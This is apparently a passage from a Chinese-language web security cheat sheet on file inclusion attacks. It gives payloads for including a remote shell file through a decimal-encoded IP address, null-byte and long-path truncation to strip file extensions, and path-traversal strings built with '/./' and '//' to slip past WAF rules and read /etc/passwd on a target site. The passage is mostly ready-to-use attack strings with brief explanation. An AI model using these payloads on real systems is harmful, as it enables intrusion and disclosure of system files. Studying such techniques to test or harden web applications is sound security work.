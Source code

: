 远程包含时如果服务端过滤了`.`的时候，我们可以将远程包含的地址转换成十进制，以此来绕过检测。

`http://2130706433/shell.txt`
等同于
`http://127.0.0.1/shell.txt`

*	路径泄漏

上传时用Burpsuite修改上传路径为泄漏的路径

# 与扩展战斗ing

## 1) 空字节
添加终止字符串的空字节

```
http://www.site.com/lfi.php?page=/etc/passwd%00

http://www.site.com/lfi.php?page=/etc/passwd%2500	%的url编码为%25
```

## 2) 截断
通过创建长字符串来截断扩展,利用操作系统对目录最大长度的限制，可以不需要0字节而达到截断的目的。目录字符串在window下256字节、linux下4096字节时会达到最大值，最大值长度之后的字符将被丢弃。
我们可以利用"./"的方式即可构造出超长目录字符串:

#### 2.1) 相对路径的绕过

写WAF文件包含规则时，如果检测单一的”../”，误报会非常多，所以WAF文件包含规则通常会检测连续的“../"。根据vfs解析路径的语法，解析到“//”文件路径不变，解析到“/./”文件路径依然。 通过避免连续的"../"，从而绕过WAF文件包含规则。

```
Eg: ././..///./.././/../etc//passwd，它等价于../../../etc/passwd。
```

#### 2.2) 绝对路径的绕过

WAF没有考虑到路径中插入“/./”、“//”对于vfs解析路径是等价的，导致可被绕过。例如 /etc/./passwd 与 /etc/passwd 是等价的。还可以通过组合“/./”、“//”进行绕过，

```
eg. /etc///.//././/passwd
```

```
././././././././././././././././abc
```

```
////////////////////////abc
```

```
..1/abc/../1/abc/../1/abc
```

```
http://www.site.com/lfi.php?page=../../../../../../../../../../../../etc/passwd
```
